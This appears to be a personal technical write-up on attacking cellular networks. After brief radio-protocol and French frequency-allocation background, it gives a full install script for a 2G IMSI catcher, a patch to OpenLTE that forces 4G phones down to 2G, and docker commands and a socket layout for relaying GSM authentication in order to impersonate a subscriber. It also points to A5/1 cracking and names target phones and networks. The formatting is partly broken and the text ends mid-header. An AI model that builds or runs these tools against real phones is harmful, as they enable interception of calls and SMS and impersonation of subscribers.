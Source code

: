 
----

title: "Works"
author: "Bastien Baranoff"
header-includes:

----

.. code-block::

   **Radio-Frequencies Protocols :**
   ---------------------------------

   A protocol is for computing (quoted from Oxford langage):
   "A set of rules governing the exchange or transmission of data between devices."
   <https://www.oed.com/>.

   The goal like it is said is to make travel information from A->B, and (maybe) then B->A etcaetera. This information has a weight and it has to move so : energy is spent, at least F(A->B).
   Another goals came obviously from the first depending on the case of use : spending the less energy possible, have the maximum range, transmit the most data possible, have the best yield, and be the most secure possible (I mean by that, that it can't be understood by a machine or an human on an undesired endpoint in a reasonable time at least at the time of conception and from the projected advances in technology), there are also another important points the latency, and the errors between the message sent and received.  


----

**Radio-Telephony**
-----------------------

----

**Example of SFR:**
-----------------------

**Article 1**

– The French Radiotelephone Company ("Société  Française de Radiotéléphonie") is authorized to use, in the
900 and 1800 MHz bands, the frequencies allocated to it in Article 2 of this decision to establish and operate a radio network open to the public in metropolitan France. For this, it complies with the provisions of the specifications located in appendix 2 of this decision.

**Article 2**

– The GSM channels allocated to the French Radiotelephone Company are, in accordance with the definitions in appendix 1:


* 
  in the 900 MHz band, throughout mainland France: channels 75 to 124;

* 
  in the 900 MHz band, only in very dense areas: channels 63 to 74;

* 
  in the 1800 MHz band, throughout mainland France: channels 512 to 525
  and 647 to 751

For others Operator (GSM)

```{r, echo=FALSE}
library("readxl")
mydata<-read_excel("mytab.xlsx",1)
head(mydata)

.. code-block::

   Free = ? (Free didn't invest much in 2G antenna since 2G will die in 2025 in France the use Orange roaming )

   ---------------
   **2G Attack :**
   ---------------



   An active 2G active should look like this :


   ![diagrone.png.png)
   ![2G Attack Active](diagram_2G_act.png)

   Ths is the flow of a 2G active attack


   ## Hacking 2G (Fooling MS : Mobile Station, the 2G phone)
   The MS doesn't ask authentication from BTS (Base Transceiver Station, the relay antenna). So what to do to intercept ? Be a BTS... and that's all just spoof the public values of the BTS (mcc,mnc exemple 208,15 for FreeMobile 208,01 for Orange, etc) and broadcast a stronger signal and it is done. How the implement a 2G BTS ? there are open sourced implementation on github. 
   https://github.com/osmocom (OpenBSC Osmo-Trx Osmo-Bts... EOL but usefull) or (Network in the Box Updated)
   https://github.com/RangeNetworks/openbts
   https://github.com/vir/yate

   To install it I have scripted it for example for OpenBSC :
   ```bash
   #!/bin/bash
   read -p "Architecture ? amd64, armel, arm64 ?" ARCH
   apt-key adv --recv-keys --keyserver keyserver.ubuntu.com 3B4FE6ACC0B21F32 40976EAF437D05B5
   cp /etc/apt/trusted.gpg /etc/apt/trusted.gpg.d
   apt install gcc-9 g++-9 gcc-10 g++-10 git -y
   echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ xenial main restricted universe multiverse" >> /etc/apt/sources.list
   apt update
   apt install gcc-4.9 g++-4.9 gcc-7 g++-7 -y
   sed -i '$ d' /etc/apt/sources.list
   apt update
   apt install -y build-essential libusb-1.0-0-dev libsqlite3-dev libsctp-dev libgmp-dev libx11-6 libx11-dev flex libncurses5 libdbd-sqlite3 libdbi-dev libncurses5-dev libncursesw5 libpcsclite-dev zlib1g-dev libmpfr4 libmpc3 lemon aptitude libtinfo-dev libtool shtool autoconf git-core pkg-config make libmpfr-dev libmpc-dev libtalloc-dev libfftw3-dev libgnutls28-dev libtool-bin libxml2-dev sofia-sip-bin libsofia-sip-ua-dev sofia-sip-bin libncursesw5-dev bison libgmp3-dev alsa-oss
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-4.9 49 --slave /usr/bin/g++ g++ /usr/bin/g++-4.9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-7 70 --slave /usr/bin/g++ g++ /usr/bin/g++-7
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
   apt update
   apt install -y gcc-5 g++-5 libssl1.0-dev
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 50 --slave /usr/bin/g++ g++ /usr/bin/g++-5
   sed -i '$ d' /etc/apt/sources.list
   apt update
   update-alternatives --set gcc /usr/bin/gcc-4.9
   exit
   apt remove texinfo
   mkdir -p /opt/IMSI_Catcher
   cd /opt/IMSI_Catcher
   wget http://ftp.gnu.org/gnu/texinfo/texinfo-4.13.tar.gz
   tar xvf texinfo-4.13.tar.gz
   cd texinfo-4.13
   ./configure
   make
   make install
   #git clone https://github.com/bbaranoff/gnu-arm-installer.git gnuarm
   #cd gnuarm
   ##Run the Scripts
   #bash gnu-arm-installer.sh
   #export PATH=$PATH:/root/gnuarm/install/bin
   # Now you have cross-compiler ready you can build osmocom with your firmware
   update-alternatives --set gcc /usr/bin/gcc-9
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmocore.git
   cd libosmocore
   git checkout 1.3.0
   autoreconf -i
   ./configure
   make
   make install
   ldconfig
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   autoreconf -i
   ./configure
   make
   make install
   cd /opt/IMSI_Catcher
   update-alternatives --set gcc /usr/bin/gcc-5
   git clone https://github.com/osmocom/osmocom-bb trx
   cd trx
   git checkout jolly/testing
   cd src
   wget https://github.com/bbaranoff/telco_install_sh/raw/main/trx.highram.bin
   sed -i -e  's/#CFLAGS += -DCONFIG_TX_ENABLE/CFLAGS += -DCONFIG_TX_ENABLE/g' target/firmware/Makefile
   make HOST_layer23_CONFARGS=--enable-transceiver nofirmware
   cd /opt/IMSI_Catcher
   update-alternatives --set gcc /usr/bin/gcc-9
   apt install -y libortp-dev
   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/libosmo-abis
   cd /opt/IMSI_Catcher/libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/libosmo-netif
   cd /opt/IMSI_Catcher/libosmo-netif
   git checkout 0.7.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/openbsc
   cd /opt/IMSI_Catcher/openbsc/openbsc
   autoreconf -fi && ./configure --with-lms && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/osmo-bts
   cd /opt/IMSI_Catcher/osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   cd /opt/IMSI_catcher
   wget https://github.com/bbaranoff/telco_install_sh/raw/main/opencore-amr-0.1.5.tar.gz
   tar xvzf opencore-amr-0.1.5.tar.gz
   cd opencore-amr-0.1.5
   ./configure
   make -j$(nproc)
   make install
   ldconfig
   cd /lib/modules/$(uname -r)/build/certs
   openssl req -new -x509 -newkey rsa:2048 -keyout signing_key.pem -outform DER -out signing_key.x509 -nodes -subj "/CN=Owner/"
   cd /opt/IMSI_Catcher/
   git clone https://github.com/isdn4linux/mISDN
   cd /opt/IMSI_Catcher/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/hardware/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/mISDN/
   wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/octvqe.patch
   cp /boot/System.map-$(uname -r) /usr/src/linux-headers-$(uname -r)/System.map
   ln -s /lib/modules/$(uname -r)/build /lib/modules/$(uname -r)/source
   aclocal && automake --add-missing
   ./configure
   patch -p0 < octvqe.patch
   make modules
   cp /opt/IMSI_Catcher/mISDN/standalone/drivers/isdn/mISDN/modules.order /usr/src/linux-headers-$(uname -r)
   cp -rn /usr/lib/modules/$(uname -r)/. /usr/src/linux-headers-$(uname -r)
   make modules_install
   depmod -a

   update-alternatives --set gcc /usr/bin/gcc-7

   cd /opt/IMSI_Catcher
   apt install bison flex -y
   git clone https://github.com/isdn4linux/mISDNuser
   cd /opt/IMSI_Catcher/mISDNuser
   make
   ./configure
   make
   make install
   ldconfig
   cd example
   ./configure
   make
   make install
   ldconfig

   update-alternatives --set gcc /usr/bin/gcc-9
   cd /opt/IMSI_Catcher
   #Asterisk version (11.25.3) :
   wget http://downloads.asterisk.org/pub/telephony/asterisk/releases/asterisk-11.25.3.tar.gz
   tar zxvf asterisk-11.25.3.tar.gz
   cd /opt/IMSI_Catcher/asterisk-11.25.3
   apt install libncurses-dev libxml2-dev
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/tcptls.patch
   patch -p1 < tcptls.patch
   ./configure
   make -j$(nproc)
   make install
   make samples
   make config
   ldconfig
   update-alternatives --set gcc /usr/bin/gcc-5
   cd /opt/IMSI_Catcher
   git clone https://github.com/fairwaves/lcr
   cd lcr
   wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/ast_lcr.patch
   patch -p0 < ast_lcr.patch
   autoreconf -i
   ./configure --with-sip --with-gsm-bs --with-gsm-ms --with-asterisk
   make
   make install
   ldconfig
   cp chan_lcr.so /usr/lib/asterisk/modules/
   apt-get install alsa-oss
   modprobe snd-pcm
   modprobe snd-mixer-oss
   modprobe mISDN_core
   modprobe mISDN_dsp
   rm -rf /usr/local/etc/lcr
   mkdir -p /usr/local/etc/
   git clone https://github.com/bbaranoff/lcr_conf /usr/local/etc/lcr/
   sudo chmod 755 /usr/local/etc/lcr
   sudo chmod 644 /usr/local/etc/lcr/*
   cd /etc/asterisk
   mv sip.conf sip.conf.bak
   mv extensions.conf extensions.conf.bak
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/sip.conf
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/extensions.conf
   mkdir /root/nitb
   cd /root/nitb
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/openbsc.cfg
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/nitb.sh
   chmod +x nitb.sh

In https://github.com/bbaranoff/telco_install_sh

Follow the ReadMe and all should be OK.

`IMSI-Catcher 2G <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

Now we have hacked 2G outgoing calls what to do ?

I let as a reader research Yate, OpenBTS, Network In the Box ;)

Now we have hacked 2G outgoing calls what to do ?

Hacking 4G !
------------


.. image:: diagram1_2G_act2.png
   :target: diagram1_2G_act2.png
   :alt: 4G Attack Active

\newpage

.. image:: diagram1_2G_act3.png
   :target: diagram1_2G_act3.png
   :alt: 4G Attack Active


What is the way ? Now the eNodeB (evolved Node BTS the 4G BTS) must authenticate with the phone... What to do then ? Fallback into 2G !
The phone before authenticate send a tracking area update request and the eNodeB respond it with a TAU accept what we will do then ? Reject It ! Say that only 2G is available in the area ;)

.. code-block:: patch

   --- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
   +++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
   @@ -11698,13 +11698,28 @@
            liblte_value_2_bits(0, &msg_ptr, 2);

            // Optional indicators
   -        liblte_value_2_bits(0, &msg_ptr, 1);
   +        liblte_value_2_bits(1, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);

            // Release cause
            liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);

   +// redirectedcarrierinfo
   +// geran // choice
   +liblte_value_2_bits(1, &msg_ptr, 4);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// dcs1800
   +liblte_value_2_bits(0, &msg_ptr, 1);
   +// Choice of following ARFCN
   +liblte_value_2_bits(0, &msg_ptr, 2);
   +// explicit list
   +liblte_value_2_bits(1, &msg_ptr, 5);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// Note that total bits should be octet aligned,
   +// if not, pad it with zeros.
            // Fill in the number of bits used
            msg->N_bits = msg_ptr - msg->msg;

   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
   @@ -106,6 +106,7 @@
        // Message Parsers
        void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
   +    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
        void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   @@ -125,6 +126,8 @@
        // Message Senders
        void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
   @@ -99,18 +99,21 @@
    typedef enum{
        LTE_FDD_ENB_MME_PROC_IDLE = 0,
        LTE_FDD_ENB_MME_PROC_ATTACH,
   +    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
        LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
        LTE_FDD_ENB_MME_PROC_DETACH,
        LTE_FDD_ENB_MME_PROC_N_ITEMS,
    }LTE_FDD_ENB_MME_PROC_ENUM;
    static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                      "ATTACH",
   +                                         "TAU REQUEST",
                                                                                      "SERVICE REQUEST",
                                                                                      "DETACH"};

    typedef enum{
        LTE_FDD_ENB_MME_STATE_IDLE = 0,
        LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
   +LTE_FDD_ENB_MME_STATE_TAU_REJECT,
        LTE_FDD_ENB_MME_STATE_REJECT,
        LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
        LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
   @@ -126,7 +129,7 @@
    }LTE_FDD_ENB_MME_STATE_ENUM;
    static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
                                                                                        "ID REQUEST IMSI",
   -                                                                                    "REJECT",
   +                                                                       "REJECT",
                                                                                        "AUTHENTICATE",
                                                                                        "AUTH REJECTED",
                                                                                        "ENABLE SECURITY",
   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
   @@ -204,6 +204,10 @@
            case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
                parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
                break;
   +        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
   +            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
   +            break;
   +
            case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
                parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
                break;
   @@ -655,6 +659,16 @@
            }
        }
    }
   +void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
   +                                           LTE_fdd_enb_user       **user,
   +                                           LTE_fdd_enb_rb         **rb)
   +{
   +    // Set the procedure
   +
   +(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
   +(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
   +
   +
    void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                       LTE_fdd_enb_user       *user,
                                                       LTE_fdd_enb_rb         *rb)
   @@ -864,7 +878,7 @@
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                    user->set_id(hss->get_user_id_from_imei(imei_num));
                }else{
   -                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
   +                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
                }
            }else{
   @@ -1195,6 +1209,9 @@
            user->prepare_for_deletion();
            send_attach_reject(user, rb);
            break;
   + case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
   +        send_tracking_area_update_reject(user, rb);
   +break;
        case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
            send_authentication_request(user, rb);
            break;
   @@ -1397,6 +1414,52 @@
                          (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                          sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
    }
   +
   +
   +
   +
   +void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
   +                                         LTE_fdd_enb_rb   *rb)
   +{
   +    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
   +    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
   +    LIBLTE_BYTE_MSG_STRUCT                   msg;
   +     ta_update_rej.emm_cause = user->get_emm_cause();
   +     ta_update_rej.t3446_present = false;
   +     liblte_mme_pack_tracking_area_update_reject_msg(
   +     &ta_update_rej,
   +     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
   +     user->get_auth_vec()->k_nas_int,
   +     user->get_auth_vec()->nas_count_dl,
   +     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
   +     &msg);
   +    // Queue the NAS message for RRC
   +    rb->queue_rrc_nas_msg(&msg);
   +
   +    // Signal RRC for NAS message
   +    nas_msg_ready.user = user;
   +    nas_msg_ready.rb   = rb;
   +    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
   +                      LTE_FDD_ENB_DEST_LAYER_RRC,
   +                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
   +                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
   +
   +    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
   +// Unpack the message
   +    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
   +
   +    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
   +                                  user->get_imsi_str().c_str(),
   +                                  user->get_imei_str().c_str());
   +
   +    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
   +}
   +
   +
   +
   +
   +
   +
    void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                             LTE_fdd_enb_rb   *rb)
    {
   @@ -1412,7 +1475,7 @@
            imsi_num = user->get_temp_id();
        }

   -    attach_rej.emm_cause           = user->get_emm_cause();
   +    attach_rej.emm_cause           = 2;
        attach_rej.esm_msg_present     = false;
        attach_rej.t3446_value_present = false;
        liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
   @@ -229,7 +229,7 @@
        try
        {
            // Setup the USRP
   -        if(devs[idx-1]["type"] == "x300")
   +        if(devs[idx-1]["type"] == "soapy")
            {
                devs[idx-1]["master_clock_rate"] = "184320000";
                master_clock_set                 = true;
   @@ -252,7 +252,6 @@
                usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
                usrp->set_tx_gain(tx_gain);
                usrp->set_rx_gain(rx_gain);
   -
                // Setup the TX and RX streams
                tx_stream  = usrp->get_tx_stream(stream_args);
                rx_stream  = usrp->get_rx_stream(stream_args);
   @@ -822,7 +821,7 @@
            buffer_size = 1024;
        }
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_TX,
   +                                BLADERF_TX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -842,7 +841,7 @@

        // Setup sync RX
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_RX,
   +                                BLADERF_RX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -974,7 +973,7 @@
        if(radio_params->init_needed)
        {
            // Assume RX_timestamp and TX_timestamp difference is 0
   -        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
   +        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
            next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
            metadata_rx.flags     = 0;
            metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes

This patch applied on the OpenLTE suite should do the trick.

`Redirection Attack <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

And it does !

Then what to do ?
We know how to be a BTS in front of a MS and force the UE (User Equipement : 4G phone) to fallback into 2G.

Hey ! We gonna pretend that we are the MS in front of the BTS !

Hacking 2G BTS
--------------


.. image:: test3.png
   :target: test3.png
   :alt: Attack Flow


The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS. How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :


* The BTS send a rand,key_sequence to the MS.
* The MS respond SRes = f(ki,rand)
* The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :


* The genuine BTS send a rand,key_seq to the Evil MS.
* The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
* The Evil BTS send the rand,key_seq to genuine MS
* The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
* In the example video Kc is forwarded between Genuine MS-> Evil MS

`Impersonnate PoC <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With french explanations ;) sorry...

`Impersonalisaion (français) <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With english explanation (now ;)
`Impersonate (english) <https://www.youtube.com/watch?v=rSGA4oFsFrQ>`_

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

.. code-block:: bash

   apt remove brltty

on host (not on docker !)
Launch 1st

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah

Launch 2nd

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts

.. code-block:: bash

   tmux
   cd /
   service pcscd start
   ./evil-bts.sh

`
then in ms :

.. code-block:: bash

   tmux
   cd /
   bash trx.sh
   ctrl-b c 
   ./evil-ms.sh

set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader

What happen next ?

`Crack A5/1 <https://brmlab.cz/project/gsm/deka/attack-implementation>`_

5s to crack it before the Kc ciphered channel timeout has been gone and if it is done we have incomming SMS.

Targets android < 12, telco 2G until 2025 in France

Thank for reading !

Clients-servers architecture :
------------------------------

.. code-block::

   bsc-2rfa 172.17.0.2
   server rand 888 listen on 0.0.0.0
   client sres 666 -> 172.17.0.3

   bb-2rfa 172.17.0.3
   client rand 888 -> 172.17.0.2
   server sres 666 listen on 0.0.0.0
   server kc 777 listen on 0.0.0.0

   osmocom-genuine-ms 172.17.0.2
   client kc 777 -> 172.17.0.3

Headers :
---------

suppress_space.h

.. code-block:: c

   #include <stdio.h>
   char res[100];
   char* spaces(char str [])
   {
   int i = 0;int j = 0;
          while (str[i] != '\0')
          {
             if ((str[i] == ' ') != 1) {
               res[j] = str[i];
               j++;
             }
             i++;
          }
          res[j] = '\0';
   return res;}

hex.h

.. code-block:: c

   /*
    * Read hex strings and output as text.
    *
    * No checking of the characters is done, but the strings must have an even
    * length.
    *
